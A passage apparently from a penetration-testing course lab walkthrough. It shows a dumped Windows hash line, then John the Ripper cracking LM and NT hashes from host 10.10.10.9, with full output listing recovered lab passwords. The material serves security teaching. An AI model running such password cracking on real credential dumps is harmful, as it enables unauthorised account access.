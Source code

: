 susan:1009:e52cac67419a9a2236077a718ccdf409:5f946a12c3ebe8640c7c382616045332:::
</pre>

Use John to crack the passwords:

<pre>
sec504@slingshot:~$ john 10.10.10.9.hashes 
Warning: detected hash type "LM", but the string is also recognized as "NT"
Use the "--format=NT" option to force loading these as that type instead
Warning: detected hash type "LM", but the string is also recognized as "NT-old"
Use the "--format=NT-old" option to force loading these as that type instead
Using default input encoding: UTF-8
Using default target encoding: CP850
Loaded 17 password hashes with no different salts (LM [DES 128/128 SSE2-16])
Press 'q' or Ctrl-C to abort, almost any other key for status
PEACHES          (peaches:1)
PASSWOR          (susan:1)
                 (SUPPORT_388945a0)
                 (Guest)
JOSHUA           (falken)
1                (peaches:2)
8                (susan:2)
POOR             (mike)
DIRT33           (paul)
GHT              (Administrator:2)
020              (admin:2)
11g 0:00:00:43 0.03% 3/3 (ETA: 2019-10-05 11:25) 0.2558g/s 44896Kp/s 44896Kc/s 273847KC/s UTS6R..UTSK5
11g 0:00:02:04 0.08% 3/3 (ETA: 2019-10-05 09:39) 0.08870g/s 46668Kp/s 46668Kc/s 281559KC/s R1T7-37..R1T7-N1
11g 0:00:02:08 0.08% 3/3 (ETA: 2019-10-05 09:29) 0.08590g/s 46835Kp/s 46835Kc/s 282514KC/s DEUJHUA..DEUJHHL
Warning: passwords printed above might be partial
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
sec504@slingshot:~$ john --format=NT 10.10.10.9.hashes 
Using default input encoding: UTF-8
Loaded 11 password hashes with no different salts (NT [MD4 128/128 SSE2 4x3])
Press 'q' or Ctrl-C to abort, almost any other key for status
peaches1         (peaches)
                 (Guest)
joshua           (falken)
poor             (mike)
dirt33           (paul)
5g 0:00:00:27  3/3 0.1851g/s 21999Kp/s 21999Kc/s 132627KC/s beahro08..beahri11
5g 0:00:02:28  3/3 0.03378g/s 24369Kp/s 24369Kc/s 146334KC/s dysn22a..dysn202
5g 0:00:02:30  3/3 0.03314g/s 24410Kp/s 24410Kc/s 147405KC/s jupmang..jupman7
Use the "--show" option to display all of the cracked passwords reliably
Session aborted
</pre>

> The guest account is ignored because the hashes are default values (inaccessible/disabled account)

